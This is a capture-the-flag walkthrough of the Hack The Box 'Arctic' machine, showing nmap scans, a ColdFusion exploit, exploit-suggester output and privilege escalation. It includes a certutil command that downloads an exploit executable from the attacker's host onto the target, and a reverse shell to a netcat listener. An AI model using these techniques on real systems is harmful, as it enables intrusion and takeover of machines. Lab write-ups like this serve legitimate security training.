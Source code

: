 ﻿### HTB Arctic 10.10.10.11

Ok, we're back with another box.  This time it's HTB Arctic.  Trying to do this one with no assistance.  Or if I need any lookup points, to make note.  So let's get to it.  We'll start off like normal.  Nmaping our way through the world.  One box at a time.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.11                     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 06:31 EDT
Nmap scan report for 10.10.10.11
Host is up (0.045s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 96.01 seconds
```

3 ports to work with.  Let's take a closer look.

```
(kali@kali)-$ sudo nmap -A -p 135,8500,49154 10.10.10.11  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 06:34 EDT
Nmap scan report for 10.10.10.11
Host is up (0.044s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|8|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 7 or Windows Server 2008 R2 (88%), Microsoft Windows 7 (88%), Microsoft Windows 7 Professional or Windows 8 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 49154/tcp)
HOP RTT      ADDRESS
1   46.99 ms 10.10.14.1
2   47.08 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.93 seconds
```

So 2 of the 3 are remote desktop ports.  What's this 8500, fmtp though.  Just curious.  Let's try a web browser and see what comes back there.

![Browser Pic](/Images/HTB6Arctic/pic1.png)

Interesting.  So, do some searching on cfide and cfdocs and turns out that this appears to be a Cold Fusion server.  Wonder if there are any exploits.  After some googleing, it appears there is.  I found a python script at https://www.exploit-db.com/exploits/50057, plugged in my info where I needed to, ran it and wouldn't ya know it.  Worked like a charm.

![Python Connect](/Images/HTB6Arctic/pic2.png)

It also looks like we're a user on the device.  `tolis` is the account name.  Go get the flag cause that's just the fun little cookie at the end.  But this isn't the end.  Let's go own it now.

So since we have a shell now, we can get the `systeminfo` and go through the exploit suggester.

```
(kali@kali)-$ python2 ./windows-exploit-suggester.py --database 2024-10-29-mssb.xls --systeminfo sysinfo.txt   
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

In a live test, we might check all of these, but I see one that is familiar.  MS10-059.  Also call Chimichurri.  Run a google search on MS10-059 and it gives us a github page among others.

Download the exploit from the webpage (the .exe file) and then use our python server skills to start up a python web server.  Then use certutil to download the file onto the target machine.

```
C:\Users\tolis\Documents>certutil.exe -urlcache -f http://10.10.x.x/Chimichurri.exe chimi.exe
certutil.exe -urlcache -f http://10.10.x.x/Chimichurri.exe chimi.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\tolis\Documents

04/11/2024  04:45 ��    <DIR>          .
04/11/2024  04:45 ��    <DIR>          ..
04/11/2024  04:45 ��           784.384 chimi.exe
               1 File(s)        784.384 bytes
               2 Dir(s)   1.431.838.720 bytes free
```

Now that that's there, we can run it since we made sure it was in a folder we could do that from.

```
C:\Users\tolis\Documents>chimi.exe
chimi.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

Ahh, so we need a listener and some options.  Start a netcat listener on our machine and then we're in.

![chimi.exe](/Images/HTB6Arctic/pic3.png)

And let's check our netcat window.

![ownage!](/Images/HTB6Arctic/pic4.png)

And as we can see here, we have owned the machine.  Go get the flag off the desktop and we've now owned this box too!!

This was another fun one!  HTB site went down for me as I was finishing it so I had to wait a bit to actually finish the box.  Maybe when I cracked this one, I brought the whole site down.  HAHA, doubt it, but we hackers can dream, yea?  Until next time kids!